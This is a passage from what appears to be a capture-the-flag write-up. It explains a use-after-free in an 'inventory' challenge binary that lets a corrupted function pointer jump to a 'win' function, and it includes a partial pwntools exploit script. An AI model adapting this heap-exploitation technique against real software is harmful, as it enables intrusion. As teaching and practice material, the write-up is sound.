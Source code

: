     We see that only the price and itemname (the first 16 bytes) get    nulled out, so our item_1 will contain the following contents: 

    ```
    [
        0x0000000000000000  # item->price
        0x0000000000000000  # item->itemname
        0x4343434343434343  # item->print_ptr
    ]
    ```

5. now that we have an item_1 with a corrupted print_ptr, we need to actually call the print_ptr through view_item.
```
	if(itemlist[select]->itemname != NULL) {
		printf("Item name: %s\n", itemlist[select]->itemname);
		(*(itemlist[select]->print_ptr))();
	}
```
Our pointer will only be called / executed if we pass the `itemlist[select]->itemname != NULL`, this simply means we have to add a name to our item_1. In order to do this, we simply call assign_name() again with index 1 so a fresh chunk of 24 bytes gets assigned to item_1->itemname. 

6. We can now call view_item(1) and have our corrupted `item_1->print_ptr()` executed. 


# Exploit # 
```python
#!/usr/bin/env python3 
from pwn import *

def add_item(r):
    r.recvuntil(b"> ")
    r.sendline(b"1")

def assign_name(r, index, name):
    r.recvuntil(b"> ")
    r.sendline(b"4")
    r.sendline(str(index).encode())
    r.sendline(name)
    r.sendlineafter(b"Unknown item type. Please enter the price manually\n", b"1337")

def remove_name(r, index):
    r.recvuntil(b"> ")
    r.sendline(b"5")
    r.sendline(str(index).encode())

def view_item(r, index):
    r.recvuntil(b"> ")
    r.sendline(b"2")
    r.sendline(str(index).encode())


r = process("./inventory")
#r = remote("host1.metaproblems.com", 5300)

e = ELF("./inventory")
fake_struct = b"".join(p64(x) for x in [
    0x4141414141414141, # price
    0x4242424242424242, # name ptr
    e.symbols['win'],   # function ptr
])

# create item_0
add_item(r)
```